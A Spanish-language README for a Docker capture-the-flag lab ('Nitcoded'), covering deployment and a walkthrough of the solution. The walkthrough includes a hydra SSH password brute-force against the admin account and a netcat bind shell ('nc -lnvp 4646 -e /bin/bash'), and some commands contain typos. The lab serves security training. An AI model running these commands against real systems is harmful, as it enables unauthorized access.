 # Nitcoded

- [1. Descripción](#1-descripción)
- [2. Instalación y despliegue](#2-instalación-y-despliegue)
- [2.1. Despliegue manual](#21-despliegue-manual)
- [2.2. Despliegue atomático](#22-despliegue-atomático)
- [3. Descripción del laboratorio](#3-descripción-del-laboratorio)
- [4. Resolución del laboratorio](#4-resolución-del-laboratorio)
- [4.1. Cracking de credenciales](#41-cracking-de-credenciales)
- [4.2. Sesión interactiva](#42-sesión-interactiva)
- [4.3. Configuración del servidor HTTP](#43-configuración-del-servidor-http)
- [4.4. Recepción de archivos](#44-recepción-de-archivos)
- [4.5. Obtención de la flag](#45-obtención-de-la-flag)

## 1. Descripción

Este laboratorio es una simulación de un entorno cliente-servidor, en el cual se profundizará en la configuración de servidores HTTP y automatización de tareas. Utiliza Docker para simular dos servidores, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de administración.

## 2. Instalación y despliegue

Antes de iniciar el laboratorio, asegúrate de tener Docker instalado en tu sistema. Si no tienes Docker, puedes instalar siguiendo las instrucciones en el sitio oficial de Docker para [Windows](https://docs.docker.com/docker-for-windows/install/), [Mac](https://docs.docker.com/docker-for-mac/install/) o [Linux](https://docs.docker.com/engine/install/).
Para el despliegue, tanto manual como automático, será neceasrio crear una red en Docker de tipo _bridge_:

```bash
docker network create nitcoded
```

## 2.1. Despliegue manual

Para desplegar manualmente el laboratorio, deberás clonar este repositorio y ejecutar los siguientes comandos Docker para su lanzamiento:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -f kradbyte/nitcoded:server -f Dockerfile.server elementals-labs/7-Nitcoded 
docker build -f kradbyte/nitcoded:client -f Dockerfile.client elementals-labs/7-Nitcoded
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646 kradbyte/nitcoded:server
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

## 2.2. Despliegue automático

Para desplegar el laboratorio atomáticamente bastará con ejecutar los siguientes comandos:

```bash
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646 kradbyte/nitcoded:server
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

> **Nota**: No se recomienda cambiar el nombre de los contenedores, ya que hay configuraciones internas que funcionan con la resolución de los DNS de los contenedores, por lo que solo es posible cambiar el nombre de los contenedores si cambiamos las configuraciones también.

## 3. Descripción del laboratorio

**Description**
Pato va a enviar cerca de 100 archivos al servidor por HTTP, así que debes ingresar al servidor con el rol administrador y preparar todo para que Pato pueda enviar sus archivos.

**Target**
Configura un servidor HTTP.

**Steps**
- Ingresa al servidor
- Configura el servidor HTTP.
- Espera y gestiona los archivos recibidos.
- Descifra la flag en los archivos recibidos.

**Grants**
- La flag se encuentra segmentada en todos los archivos que envía Pato, deberás buscar la diferencia entre todos para encontrar la flag.
- Para el servidor HTTP no es necesario colocarle contraseña, dado que Pato hace un curl sin contraseña, que si bien no es seguro es más práctico por ser una red interna.
- El puerto 4646 está expuesto para cualquier uso.

## 4. Resolución del laboratorio

### 4.1. Cracking de credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al servidor. La descripción nos proporciona información acerca de que nuestro rol es de administrador, por lo que podremos ingresar como _admin_, por lo que ahora deberemos buscar la contraseña con herramientas como _hydra_. Como diccionario podremos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -L admmin -p /ruta/a/tu/diccionario.txt ssh://ServerIP:ServerPort
```

No olvides cambiar `ServerIP` y `ServerPort` por la IP del servidor y el puerto por el que corre la SSH (en caso de haber configurado SSH en un puerto distinto al 22).

### 4.2. Sesión interactiva

Cuando hayamos descubierto la contraseña e intentemos hacer la conexión al servidor por SSH, la sesión se cerrará y nos impedirá obtener la consola interactiva, sin embargo, podremos ejecutar comandos por SSH. Para poder obtener la consola interactiva podremos configurar una _bind shell_ instalando Netcat primero:

```bash
ssh admin@ServerIP sudo apt-get install -y netcat-traditional
```

No olvides reemplazar `ServerIP` por la IP del servidor.
Una vez hayamos instalado NetCat podremos ponernos en escucha por el puerto 4646 que estaba libre en el despliegue del contenedor:

```bash
ssh admin@ServerIP nc -lnvp 4646 -e /bin/bash
```

En nuestra máquina deberemos abrir otra terminal y conectarnos por Netcat:

```bash
nc ServerIP 4646
```

Otra forma en que podremos ganar la consola interactiva será ejecutando lo siguiente:

```bash
ssh admin@SererIP exec bash -i
```

### 4.3. Configuración del servidor HTTP

Para configurar el servidor HTTP podrías, incluso, levantarlo con Python:

```bash
python3 -m http.server
```

Sin embargo, nuestro servidor debe tener capacidades POST/PUT, dado que el cliente enviará archivos al servidor, por lo que podremos buscar alguna alternativa como un script en Python que acepte POST/PUT. Recuerda que HTTP se monta en el puerto 80.

### 4.4. Recepción de archivos

Cuando hayamos configurado el servidor correctamente, el cliente comenzará a enviar los archivos en lotes de 10 cada 3 minutos, por lo que podremos buscar una forma de gestionar estas recepciones, dado que para recibir todos los archivos tardará cerca de 30 minutos.
Se sugiere implementar un script en bash que guarde los arhivos en alguna ubicación y vaya renombrando los archivos recibidos, junto con una tarea cron para que el proceso se realice automáticamente.

> **Nota**: Si el cliente tienen algún error al enviar los archivos se reiniciará el índice de envío de archivos; es decir, si se enviaron los archivos 20-30 y paramos el servidor, el cliente intentará enviar todos los archivos nuevamente desde el primero. Podremos ver los logs de los envíos con el siguiente comando:

```bash
docker exec nitcoded-client cat /root/sender.log
```

### 4.5. Obtención de la flag

Una vez hayamos obtenido todos los archivos (90 en total) deberemos realizar la lectura de cada uno, ya que al descrifrarlos encontraremos un caracter diferente en cada archivo que deberás compilar para obtener una frase encriptada en base64 que contendrá la flag. Esto también se puede automatizar con un script.
